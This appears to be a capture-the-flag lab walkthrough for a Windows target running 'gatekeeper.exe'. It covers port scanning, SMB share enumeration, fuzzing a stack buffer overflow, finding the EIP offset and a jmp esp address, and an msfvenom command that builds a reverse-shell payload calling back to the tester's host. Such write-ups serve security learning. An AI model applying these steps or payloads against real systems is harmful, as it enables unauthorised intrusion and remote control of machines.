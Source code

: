 # Tools

# Knowledge

# Walkthrough
Scan with nmap  
```
	PORT      STATE    SERVICE            VERSION
	135/tcp   open     msrpc              Microsoft Windows RPC
	139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open     microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
	3389/tcp  open     ssl/ms-wbt-server?
	6609/tcp  filtered unknown
	7740/tcp  filtered unknown
	10179/tcp filtered unknown
	11951/tcp filtered unknown
	22896/tcp filtered unknown
	31337/tcp open     Elite?
	32634/tcp filtered unknown
	34894/tcp filtered unknown
	49152/tcp open     msrpc              Microsoft Windows RPC
	49153/tcp open     msrpc              Microsoft Windows RPC
	49154/tcp open     msrpc              Microsoft Windows RPC
	49155/tcp open     msrpc              Microsoft Windows RPC
	49161/tcp open     msrpc              Microsoft Windows RPC
	49165/tcp open     msrpc              Microsoft Windows RPC
	50140/tcp filtered unknown
	59992/tcp filtered unknown
	65372/tcp filtered unknown
```

nc to 31337 (```nc $TARGET_IP 31337```)  
```
	hello
	Hello hello!!!
	hacker
	Hello hacker!!!
	help
	Hello help!!!
	h
	Hello h!!!
```
Seemingly an echo server is running on this port.  
Scan smb shares (```nmap -script=smb-enum-shares $TARGET_IP | tee nmap_smb_result```)
```
	Host script results:
	| smb-enum-shares: 
	|   account_used: guest
	|   \\10.10.40.122\ADMIN$: 
	|     Type: STYPE_DISKTREE_HIDDEN
	|     Comment: Remote Admin
	|     Anonymous access: <none>
	|     Current user access: <none>
	|   \\10.10.40.122\C$: 
	|     Type: STYPE_DISKTREE_HIDDEN
	|     Comment: Default share
	|     Anonymous access: <none>
	|     Current user access: <none>
	|   \\10.10.40.122\IPC$: 
	|     Type: STYPE_IPC_HIDDEN
	|     Comment: Remote IPC
	|     Anonymous access: READ
	|     Current user access: READ/WRITE
	|   \\10.10.40.122\Users: 
	|     Type: STYPE_DISKTREE
	|     Comment: 
	|     Anonymous access: <none>
	|_    Current user access: READ
```

Accessed to Users using smblient(```smbclient //$TARGET_IP/Users -p 445 ```), then I found gatekeeper.exe in Share folder.  
Set up Windows 7 32bit on virtual machine, ran Immunity Debugger on gatekeeper.  
It turned out that gatekeeper.exe is the service run on port 31337.  

Fuzzing with "A"*200 crashed the program.  
Sending cyclic patterns reveals that EIP offset is 146 bytes.  
![alt text](./images/mona_EIP_offset.png?raw=true)  

Then, I ran the mona command to find a module with ASLR false.  
![alt text](./images/mona_modules.png?raw=true)  
It showed gatekeeper.exe modules has turned ASLR off.

To get an address of jmp esp instruction in the gatekeeper module, ran the following command.  
```!mona jmp -r esp -m gatekeeper.exe```  
![alt text](./images/mona_jmp_esp.png?raw=true)  
The address where a jmp instruction stored turned out to be 0x080414c3.  

I created a shell code using msfvenom.  
```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c```
Then, put all together in exploit.py and running it gave a reverse shell to the local machine.

